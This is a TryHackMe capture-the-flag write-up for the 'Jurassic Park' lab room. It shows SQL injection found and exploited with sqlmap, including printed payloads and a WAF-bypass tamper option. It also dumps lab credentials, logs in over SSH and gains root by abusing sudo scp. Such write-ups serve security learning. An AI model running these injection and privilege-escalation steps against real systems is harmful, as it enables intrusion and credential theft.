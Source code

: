 ```yaml
---
title: "TryHackMe: Jurassic Park Write-up"
date: 2025-07-05 14:00:00
categories: [TryHackMe, Challenges]
tag: [Enumeration, SQL Injection, Privilege Escalation]
---
```






---

## Objective:
**Challenge Link:** [tJurassic Park](https://tryhackme.com/room/jurassicpark)

Enumerate the web application, obtain credentials to the server, and find four flags hidden in the file system.

## Enumeration:

**Port Scanning**

```bash
sudo nmap -sS -F -n 10.10.165.112
Nmap scan report for 10.10.165.112
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.22 seconds
```

visited the website on port 80, while I was viewing the tickets, I modified the URL to the `id=5` parameter, which revealed a ticket priced 0.

![image](https://github.com/user-attachments/assets/bee5e0b8-a332-4615-a07a-1481282dc139)

To test if the website is vulnerable to SQL injection, add a single quote next to the id `id=5'`, which will break the database query.

![image](https://github.com/user-attachments/assets/44f1db2f-d16e-47c0-b3ea-338377e60b3c)

we have confiremed that the website is vulnerable to **SQLi**, I used [SQLmap](https://sqlmap.org/) tool to automate the process of detection and exploiting **SQLi vulnerability**.

Before starting the attack, inject a malformed query and check the error message to identify the database.

![image](https://github.com/user-attachments/assets/4aac1e8f-0337-4906-b128-c24930055aa2)

This confirms that the back-end database is **MySQL**. Now let's start SQLi attack. I added this option `--tamper=space2comment.py` to bypass common WAF filters

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbs --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
...
sqlmap identified the following injection point(s) with a total of 261 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=5 AND 6078=6078

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=5 AND GTID_SUBSET(CONCAT(0x7162767a71,(SELECT (ELT(3314=3314,1))),0x717a626271),3314)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5 AND (SELECT 3423 FROM (SELECT(SLEEP(5)))jsGZ)
---
[10:30:24] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:30:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[10:30:25] [INFO] fetching database names
[10:30:26] [INFO] retrieved: 'information_schema'
[10:30:26] [INFO] retrieved: 'mysql'
[10:30:26] [INFO] retrieved: 'park'
[10:30:26] [INFO] retrieved: 'performance_schema'
[10:30:26] [INFO] retrieved: 'sys'
available databases [5]:
[*] information_schema
[*] mysql
[*] park
[*] performance_schema
[*] sys

[10:30:26] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.165.112'

```

**Findings:**
- Databases: information_schema, mysql, park, performance_schema, sys.
- Target database: park.

## Database Enumeration

Extract tables from **park**

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbms=mysql -D park --tables --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.9.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
[10:53:45] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:53:45] [INFO] testing MySQL
[10:53:45] [INFO] confirming MySQL
[10:53:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[10:53:46] [INFO] fetching tables for database: 'park'
[10:53:46] [INFO] retrieved: 'items'
[10:53:46] [INFO] retrieved: 'users'
Database: park
[2 tables]
+-------+
| items |
| users |
+-------+

[10:53:46] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.165.112'
```
**Findings:**
- Tables:  items, users

## Credential Dumping

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbms=mysql -D park -T items,users --dump --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.4#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
              
---

Database: park
Table: items
[5 entries]

| id  | sold | price  | package     | information                                                                                                                                                                            |
+-----+------+--------+-------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1   | 4    | 500000 | Gold        | Childen under 5 can attend free of charge and will be eaten for free. This package includes a dinosaur lunch, tour around the park AND a FREE dinosaur egg from a dino of your choice! |
| 2   | 11   | 250000 | Bronse      | Children under 5 can attend free of charge and eat free. This package includes a tour around the park and a dinosaur lunch! Try different dino's and rate the best tasting one!        |
| 3   | 27   | 100000 | Basic       | Children under 5 can attend for free and eat free. This package will include a basic tour around the park in the brand new automated cars!                                             |
| 5   | 0    | 0      | Development | Dennis, why have you blocked these characters: ' # DROP - username @ ---- Is this our WAF now?                                                                                         |
| 100 | -1   | -1     | ...         | Nope                                                                                                                                                                                   |
---

Database: park
Table: users
[2 entries]
+----+-----------+----------+
| id | password  | username |
+----+-----------+----------+
| 1  | D0nt3ATM3 |          |
| 2  | ih8dinos  |          |
+----+-----------+----------+

```

Used credentials (`dennis:ih8dinos`) to access the machine:

## Initial Access

```bash
ssh dennis@10.10.165.112     
The authenticity of host '10.10.165.112 (10.10.165.112)' can't be established.
ED25519 key fingerprint is SHA256:RgFyYsoL/n7m7p/t714RGHLqLtFNcn/+9tndcXsYijA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
dennis@10.10.165.112's password: 

dennis@ip-10-10-165-112:~$ whoami
dennis
```

The user doesn't have root access. To gain privileged access, the first thing you do is to check what privileged commands your current user is allowed to run with `sudo` without requiring a password.

```bash
dennis@ip-10-10-165-112:~$ ls -al
total 52
drwxr-xr-x 4 dennis dennis 4096 Jul  5 15:27 .
drwxr-xr-x 4 root   root   4096 Feb 16  2019 ..
-rw------- 1 dennis dennis 1001 Feb 16  2019 .bash_history
-rw-r--r-- 1 dennis dennis  220 Feb 16  2019 .bash_logout
-rw-r--r-- 1 dennis dennis 3771 Feb 16  2019 .bashrc
drwx------ 2 dennis dennis 4096 Jul  5 15:06 .cache
-rw-rw-r-- 1 dennis dennis   93 Feb 16  2019 flag1.txt
drwxrwxr-x 2 dennis dennis 4096 Jul  5 15:15 .nano
-rw-r--r-- 1 dennis dennis  655 Feb 16  2019 .profile
-rw-rw-r-- 1 dennis dennis   32 Feb 16  2019 test.sh
-rw-r--r-- 1 dennis dennis 4096 Jul  5 15:21 .test.txt.swp
-rw------- 1 dennis dennis 4631 Jul  5 15:27 .viminfo
dennis@ip-10-10-165-112:~$ 
dennis@ip-10-10-165-112:~$ sudo -l
Matching Defaults entries for dennis on ip-10-10-165-112.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-165-112.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
```

## Privilege Escalation

Followed [GTFOBins](https://gtfobins.github.io/gtfobins/scp/) to abuse `scp`.

1. Created a temporary file with a reverse shell payload

```bash
TF=$(mktemp)                      
echo 'sh 0<&2 1>&2' > $TF      
chmod +x "$TF"                    
```

2. Executed scp with the malicious payload

```bash
sudo scp -S $TF x y:                   
```
`-S $TF` tells `scp` to use `$TF` (our script) instead of the default SSH for the connection. Since scp runs as root (via `sudo`), our payload executes with root privileges.

![image](https://github.com/user-attachments/assets/31b117cf-7d60-42e2-a42a-58296d63ef36)

